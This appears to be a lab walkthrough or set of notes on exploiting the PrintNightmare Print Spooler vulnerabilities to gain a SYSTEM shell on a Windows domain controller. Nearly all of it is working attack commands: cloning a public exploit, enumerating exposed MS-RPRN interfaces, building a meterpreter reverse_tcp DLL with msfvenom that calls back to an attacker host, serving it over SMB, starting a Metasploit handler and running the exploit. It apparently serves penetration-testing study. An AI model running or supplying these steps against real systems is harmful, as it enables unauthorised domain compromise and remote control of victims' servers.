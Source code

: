 # PrintNightmare
`PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems. Many exploits have been written based on these vulnerabilities that allow for privilege escalation and remote code execution.
Let's practice with one exploit that can allow us to gain a SYSTEM shell session on a Domain Controller running on a Windows Server 2019 host.
Before conducting this attack, we must retrieve the exploit we will use. In this case, we will be using [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit. We can use Git to clone it to our attack host:
## Cloning the Exploit
``` shell
git clone https://github.com/cube0x0/CVE-2021-1675.git
```
We may need to uninstall the version of Impacket on our attack host and install cube0x0's .
## Install cube0x0's Version of Impacket
```shell
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
## Enumerating for MS-RPRN to see if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.
``` shell
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```
![Pasted image 20250312201645](https://github.com/user-attachments/assets/db2135bc-6dac-4c30-8f1c-12feb1ea1b73)
crafting a DLL payload using `msfvenom`.
### Generating a DLL Payload
``` shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```
host this payload in an SMB share we create on our attack host using `smbserver.py`.
```shell
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```
### Configuring & Starting MSF multi/handler
```shell
msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.16.5.225
LHOST => 172.16.5.225
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.5.225:8080
```
## Running the Exploit
``` shell
sudo python3 CVE-2021-1675.py Domain/User:Password@<DC-IP> '\\<Attacker-IP>\CompData\backupscript.dll'
```

